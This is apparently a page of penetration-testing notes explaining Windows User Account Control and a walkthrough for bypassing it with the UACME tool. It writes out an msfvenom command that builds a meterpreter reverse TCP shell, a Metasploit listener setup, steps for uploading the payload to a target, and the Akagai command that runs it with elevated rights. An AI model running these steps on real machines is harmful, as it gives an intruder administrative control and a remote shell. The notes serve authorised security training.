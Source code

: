User Account Control (UAC) is a security feature in Microsoft Windows designed to prevent unauthorized changes to the operating system. It ensures that any changes requiring administrative privileges must be explicitly approved by the user. UAC helps protect against malware and unauthorized software installations.

![](../../Images/uac_example.png)

## UACMe

[UACME](https://github.com/hfiref0x/UACME) is a tool designed to bypass User Account Control (UAC) prompts on Windows operating systems. It leverages vulnerabilities in the UAC mechanism to elevate privileges without requiring user interaction. UACME is primarily used for **post-exploitation** activities to escalate privileges during penetration testing or ethical hacking exercises.

#### Usage
1. **Select the key**

In the **Usage** section of the ReadMe file, there is a dropdown menu called **"keys"** where you can select the best option depending on your specific scenario. This allows you to tailor the tool's functionality to your needs, making it more adaptable for different environments or exploitation techniques.

2. **Create a payload file**

Using **msfvenom**, you can generate a reverse shell payload file. Here's a basic example to create a reverse TCP shell:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > reverse_shell.exe
```

3. **Set a listener**
Set up a listener to wait for incoming connections from the reverse shell. In Metasploit, this can be done using the following command:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your_IP>
set LPORT <Your_Port>
exploit
```

4. **Upload the akagai and reverse shell file**

You will need to upload both the Akagai executable and the reverse shell payload to the target machine. This can be done via various methods like web shell, SMB, or other file transfer techniques, depending on the access you've gained.


6. **Execute the exploit**

Once everything is set up, execute the exploit with the following command:

```
.\Akagai.exe <key> <full_path_to_rev_shell>
```